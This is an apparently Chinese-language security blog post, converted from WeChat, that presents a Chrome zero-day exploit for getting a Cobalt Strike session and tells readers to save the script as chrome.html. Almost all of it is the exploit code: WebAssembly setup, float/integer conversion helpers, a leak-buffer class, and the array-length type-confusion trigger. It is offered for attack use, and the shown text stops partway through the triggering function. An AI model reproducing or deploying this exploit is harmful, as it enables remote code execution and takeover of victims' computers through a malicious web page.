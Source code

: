 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/Suklo7BwhfwpeWmU8ViYog)

**本文章由兄弟团队凌晨安全的一灯师傅搜集整理**  

一、 chrome(最新版可用) 0day 上线 cs

参考：https://mp.weixin.qq.com/s/LOpAu8vs8ob85W3sCmXMew

1、使用以下脚本，保存为 chrome.html 格式

```
<script>
     function gc() {
       for (var i = 0; i < 0x80000; ++i) {
           var a = new ArrayBuffer();
      }
  }
   let shellcode = [];
   var wasmCode = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 133, 128, 128, 128, 0, 1, 96, 0, 1, 127, 3, 130, 128, 128, 128, 0, 1, 0, 4, 132, 128, 128, 128, 0, 1, 112, 0, 0, 5, 131, 128, 128, 128, 0, 1, 0, 1, 6, 129, 128, 128, 128, 0, 0, 7, 145, 128, 128, 128, 0, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 138, 128, 128, 128, 0, 1, 132, 128, 128, 128, 0, 0, 65, 42, 11]);
   var wasmModule = new WebAssembly.Module(wasmCode);
   var wasmInstance = new WebAssembly.Instance(wasmModule);
   var main = wasmInstance.exports.main;
   var bf = new ArrayBuffer(8);
   var bfView = new DataView(bf);
   function fLow(f) {
       bfView.setFloat64(0, f, true);
       return (bfView.getUint32(0, true));
  }
   function fHi(f) {
       bfView.setFloat64(0, f, true);
       return (bfView.getUint32(4, true))
  }
   function i2f(low, hi) {
       bfView.setUint32(0, low, true);
       bfView.setUint32(4, hi, true);
       return bfView.getFloat64(0, true);
  }
   function f2big(f) {
       bfView.setFloat64(0, f, true);
       return bfView.getBigUint64(0, true);
  }
   function big2f(b) {
       bfView.setBigUint64(0, b, true);
       return bfView.getFloat64(0, true);
  }
   class LeakArrayBuffer extends ArrayBuffer {
       constructor(size) {
           super(size);
           this.slot = 0xb33f;
      }
  }
   function foo(a) {
       let x = -1;
       if (a) x = 0xFFFFFFFF;
       var arr = new Array(Math.sign(0 - Math.max(0, x, -1)));
       arr.shift();
       let local_arr = Array(2);
       local_arr[0] = 5.1;//4014666666666666
       let buff = new LeakArrayBuffer(0x1000);//byteLength idx=8
       arr[0] = 0x1122;
       return [arr, local_arr, buff];
```